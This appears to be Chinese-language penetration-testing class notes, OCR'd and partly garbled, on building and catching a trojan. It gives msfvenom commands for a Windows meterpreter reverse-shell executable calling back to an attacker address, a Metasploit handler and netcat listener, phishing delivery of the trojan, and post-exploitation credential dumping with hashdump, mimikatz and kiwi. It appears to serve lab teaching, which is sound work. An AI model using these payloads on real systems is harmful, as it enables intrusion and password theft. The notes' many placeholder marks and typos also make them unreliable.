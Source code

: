
rdesktop -f -a 10.2.2.47   【】???
 

------------------------------------


##### 正向连接原理与流程：

【正向---需要配置rhost就是肉机的木马所在】 ???

##### 反向连接原理与流程：    【】反向 需要配置 lhost---kali监听机所在
启动本地监听【kali ???】
传木马到服务器【肉机 ???】
木马被点击，会主动跟本地的监听连接

------------------------------------


msfpayload + encode

msfvenom -p xindows/x64/meterpreter/reverse_tcp       lhost=10.11.35.65 lport=8887 -f exe -o 1.exe   【 反向木马  ??? .exe 
】

cp 1.exe ./Desktop 【】拷贝到桌面 ??? 木马程序 

先在本地监听，然后才payload执行：

use exploit/multi/handler
>set payload windows/x64/meterpreter/reverse_tcp
>set lhost 【等 共三条，同上午】

>run
nc -lvv 8887  【】 监听模块内 ???


账号pc，密码123456 靶机  随意设置
安恒U盘，防钓鱼检测 ??? 社工 ???
双击或右键，运行??? 查看靶机--蓝色win10窗口  1.exe 显示木马上线信息

#### 两种木马：

##### 反向-钓鱼木马，reverse ???
反弹式shell（reverse shell）是一种从目标主机到攻击主机创建网络连接，并提供命令行shell的攻击载荷。是由攻击者上传到目标主机后，由目标主机运行和攻击者建立会话。因此，反弹式木马产生的会话更加不易被waf等安全设备拦截。

##### 正向连接木马：
bind shell攻击载荷则在目标主机上将命令行shell绑定到一个打开的监听端口???，攻击者可以连接这些端口来取得shell交互后渗透。与反弹木马相反，bind shell 是由攻击者在自己主机上运行，发动对目标主机的攻击，从而建立会话。

### 2.3节上午
后渗透【】???
shell 不要exit，用background命令 ???
getuid
getpid
sessions
ps 进程【】
hashdump 【】!!!
load mimikatz
load kiwi
wdigest 【】抓密码 ???
